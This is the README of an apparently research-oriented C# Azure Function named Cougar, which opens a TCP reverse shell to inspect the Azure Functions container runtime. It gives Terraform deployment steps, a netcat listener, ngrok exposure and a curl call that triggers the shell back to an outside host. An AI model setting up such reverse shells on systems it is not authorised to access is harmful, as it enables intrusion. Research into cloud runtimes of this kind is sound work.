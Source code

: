 # Puma Prey Cougar

Cougar is a C# function that can be deployed to the Azure to establish a TCP reverse shell for the purposes of introspecting the Azure Functions container runtime.

## Installing Prerequisites

* [.NET 6 SDK](https://dotnet.microsoft.com/download)
* [Azure CLI](https://github.com/Azure/azure-cli)
* [Terraform](https://learn.hashicorp.com/terraform/getting-started/install.html)

## Deploying The Function

```bash
az login
export TF_VAR_unique_identifier=$(uuidgen | cut -b 25-36 | awk '{print tolower($0)}')
cd ./cougar/src/terraform/
terraform init
terraform apply --auto-approve
```

## Function Testing

Retrieve the Function Id, Host, and API key via the CLI.

```bash
export COUGAR_FUNCTION_ID=$(terraform output --json | jq -r '.cougar_function_id.value')
export COUGAR_FUNCTION_HOST=$(terraform output --json | jq -r '.cougar_function_host.value')
export COUGAR_API_KEY=$(az rest --method post --uri "$COUGAR_FUNCTION_ID/host/default/listKeys?api-version=2018-11-01" | jq -r .functionKeys.default)
export COUGAR_FUNCTION_URL="https://$COUGAR_FUNCTION_HOST/api/Cougar"
curl "$COUGAR_FUNCTION_URL?code=$COUGAR_API_KEY"
```

The result should show an error message indicating required C2 parameters are missing:

```json
{"message":"Must provide the host and port for the target TCP server as query parameters."}
```

If you have [Netcat](http://netcat.sourceforge.net/) and [ngrok](https://ngrok.com/) installed, you can use this script:

```bash
../../../script/prey.sh cougar --url $COUGAR_FUNCTION_URL --api-key $COUGAR_API_KEY
```

See [here](../script/USAGE.md) for more details on how to use this script.

Alternatively, you can do this manually by setting up a Netcat listener like so:

```bash
nc -l 4444
```

Then, to make your listener accessible from the public internet, consider using a service like ngrok:

```bash
ngrok tcp 4444
```

Finally, invoke your function, supplying your connection details and API key:

```bash
curl "$COUGAR_FUNCTION_URL?code=$COUGAR_API_KEY&host=NGROK_PORT_IP&port=NGROK_PORT_NUMBER"
```

Your listener will now act as a reverse shell for the duration of the function invocation.

## Teardown

```bash
terraform destroy
```

## Learning More

Read [documentation](docs) on what you can accomplish once you connect to the runtime via Cougar.
